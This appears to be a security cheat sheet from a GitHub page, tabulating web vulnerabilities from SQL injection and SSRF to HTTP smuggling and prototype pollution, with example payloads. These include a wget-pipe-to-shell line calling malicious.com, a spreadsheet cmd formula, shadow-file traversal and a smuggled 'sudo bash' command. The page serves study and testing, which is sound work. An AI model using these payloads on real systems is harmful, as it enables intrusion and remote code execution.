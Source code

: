 | **Login Page Scenarios**         | Various attacks on login pages: SQL Injection, Host Header Injection, URL Redirection, Username Enumeration, Rate Limiting/Brute Force. | `admin' OR '1'='1`, `http://example.com?redirect=http://malicious.com`, `admin@domain.com` |
| **Billion Laughs Attack**        | XML Bomb attack that causes resource exhaustion by creating deeply nested XML entities.                                 | `<!DOCTYPE lolz [<!ENTITY lol "lol"><!ENTITY lol1 "&lol;"><!ENTITY lol2 "&lol1;"> ...` |
| **Deserialization Vulnerability** | Exploits insecure deserialization of objects, leading to remote code execution or other attacks.                        | `O:12:"SomeClass":1:{s:4:"prop";s:10:"malicious_code";}` |
| **Directory Traversal**          | Exploits path traversal vulnerabilities to access directories and files outside the intended directory.                 | `../etc/passwd`, `../../../../etc/shadow` |
| **LFI (Local File Inclusion)**   | Attacker includes local files on the server, potentially leading to exposure of sensitive information.                  | `file:///etc/passwd`, `../config.php` |
| **RFI (Remote File Inclusion)**  | Attacker includes remote files from an external server, which may lead to remote code execution.                         | `http://malicious.com/malicious_script.php` |
| **SSRF Exploits**                | Exploiting SSRF to perform LFI, RFI, command injection, port scanning, etc., by manipulating server-side requests.       | `http://localhost:8000/admin`, `http://127.0.0.1:8080/`, `http://example.com?param=..%2F..%2F..%2Fetc%2Fpasswd` |
| **Tabnabbing**                   | Phishing technique where an attacker manipulates a tab or window to deceive users into entering sensitive information. | N/A (no specific payload, requires technique) |
| **Cache Poisoning**              | Attacker manipulates cached responses to serve malicious content or bypass security controls.                            | `Cache-Control: no-store`, `X-Original-URL: http://malicious.com` |
| **DOM XSS (Document Object Model XSS)** | Exploits vulnerabilities in client-side scripts to execute malicious code in the user's browser. Simplified as: attacker manipulates the DOM environment to inject and execute scripts. | `javascript:alert('XSS')`, `<img src="x" onerror="alert('XSS')">` |
| **CSV Injection**                | Attacker injects malicious code into CSV files which can be executed when the file is opened in spreadsheet applications. | `=cmd|'/C calc'!A0`, `;wget http://malicious.com/malware -O- | sh` |
| **Parameter Pollution**          | Attacker manipulates URL or request parameters to bypass filters or alter application behavior.                         | `?id=1&id=2`, `?search=valid&search=malicious` |
| **SSRF Bypass Techniques**       | Various methods to bypass SSRF protections, such as using alternative protocols or obfuscation techniques.              | `http://localhost%2Fadmin`, `http://127.0.0.1:8080%2Fadmin` |
| **Privilege Escalation**         | Techniques used by attackers to gain higher-level access within an application or system. Methods include exploiting insecure permissions, bypassing access controls, or exploiting vulnerabilities. | `id=1; sudo bash`, `?user=admin` |
| **BOLA vs IDOR**                 | **BOLA (Broken Object Level Authorization)**: Access control issues allowing unauthorized access to objects.<br>**IDOR (Insecure Direct Object References)**: Direct access to objects without proper authorization checks. | `?documentId=123`, `?fileId=456` |
| **Methods of Privilege Escalation** | Techniques include exploiting vulnerabilities in user roles, accessing unauthorized resources, privilege misconfigurations, or bypassing role-based access controls. | `admin`, `role=superuser` |
| **Login Page Testing**           | Tests include:<br>- **SQL Injection**: Inject SQL code into login fields.<br>- **Host Header Injection**: Manipulate headers to redirect or inject content.<br>- **URL Redirection**: Test for unauthorized redirection.<br>- **Username Enumeration**: Check if usernames are exposed.<br>- **Rate Limiting/Brute Force**: Attempt to bypass rate limits to perform brute force attacks. | `admin' OR '1'='1`, `http://example.com?redirect=http://malicious.com`, `admin@domain.com` |



| **Vulnerability**         | **Description**                                                                                           | **Impact**                                                                                              | **Example**                                           |
|---------------------------|-----------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------|-------------------------------------------------------|
| **HTTP Smuggling**         | A technique where an attacker manipulates HTTP requests to bypass security mechanisms by exploiting discrepancies between the proxy and backend servers. | Allows attackers to bypass security controls, cause cache poisoning, or leak sensitive data. | `POST /path HTTP/1.1\r\nHost: vulnerable.com\r\n\r\nGET /malicious HTTP/1.1` |
| **Race Condition**         | Occurs when two or more processes access shared data concurrently, leading to unpredictable results and potential security issues. | Can result in unauthorized actions, data corruption, or privilege escalation due to improper synchronization. | Simultaneous requests to update user settings, causing inconsistent or unauthorized changes. |
| **Prototype Pollution**    | An attack that manipulates JavaScript object prototypes, leading to unintended behavior across the application. | Allows attackers to modify core JavaScript behavior, causing crashes, security flaws, or unauthorized access. | `{"__proto__": {"isAdmin": true}}` to gain unauthorized admin privileges. |